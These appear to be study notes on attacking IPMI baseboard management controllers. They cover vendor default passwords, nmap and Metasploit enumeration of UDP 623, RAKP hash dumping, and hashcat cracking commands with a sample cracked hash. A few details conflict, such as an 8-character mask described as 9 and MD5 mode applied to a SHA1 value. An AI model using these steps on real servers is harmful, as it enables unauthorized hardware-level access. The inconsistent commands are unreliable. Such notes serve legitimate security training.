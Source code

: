 # IPMI

IPMI = Intelligent Platform Management Interface

IPMI provides sysadmins with the ability to manage and monitor systems even if they are powered off or in an unresponsive state.

Independant from BIOS, CPU, firmware and OS.

->  direct network connection to the system's hardware

Use-cases :
- Remote upgrades without physical access
- Before the OS has booted to modify BIOS settings
- When the host is fully powered down
- Access to a host after a system failure

Elements wich can be montor by IPMI : system temperature, voltage, fan status, and power supplies

IPMI requires the following components :
- Power source and LAN connection
- BMC : Micro-controller of IPMI
- ICMB : Interface of communication between 2 chassis
- IPMB : extension to BMC
- IPMI Memory : Store event logs, ...
- Communications Interfaces : Serial and LAN interfaces

Most commons BMCs : HP iLO, Dell DRAC, and Supermicro IPMI.

Port : UDP 623

# Configuration

Default passwords :
Dell iDRAC  ->  username = root             |   password = calvin
HP iLO	    ->  username = Administrator    |   random 8-char string of numbers and uppercase letters
Supermicro IPMI	-> username = ADMIN         |   password = ADMIN

# Footprinting the service


## Enumeration

sudo nmap -sU --script ipmi-version -p 623 $TARGET

sudo msfconsole
use auxiliary/scanner/ipmi/ipmi_version 
set rhosts 10.129.237.255


## Interaction

Flaw in the RAKP protocol in IPMI 2.0 : the server sends a salted SHA1 or MD5 of user's password

hashcat -m 0 02db722a94e01f2ec209dcb373981a6d079f81f2 /usr/share/wordlists/rockyou.txt


hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u



-> Try all combinations of upper case letters and numbers for an 9-char string

use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts
set OUTPUT_HASHCAT_FILE out.hashcat

hashcat -m 7300 out.hashcat -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u

admin:e3dd4a8b02030000c822288043a2dd3111111e810fcc876cf433ec48c96dcb167880e4426da1b897a123456789abcdefa123456789abcdef140561646d696e:124de895c9670ab41f93c09fcaab2f2ec1a0e8be

hashcat -m 7300 e3dd4a8b02030000c822288043a2dd3111111e810fcc876cf433ec48c96dcb167880e4426da1b897a123456789abcdefa123456789abcdef140561646d696e:124de895c9670ab41f93c09fcaab2f2ec1a0e8be /usr/share/wordlists/rockyou.txt

e3dd4a8b02030000c822288043a2dd3111111e810fcc876cf433ec48c96dcb167880e4426da1b897a123456789abcdefa123456789abcdef140561646d696e:124de895c9670ab41f93c09fcaab2f2ec1a0e8be:trinity
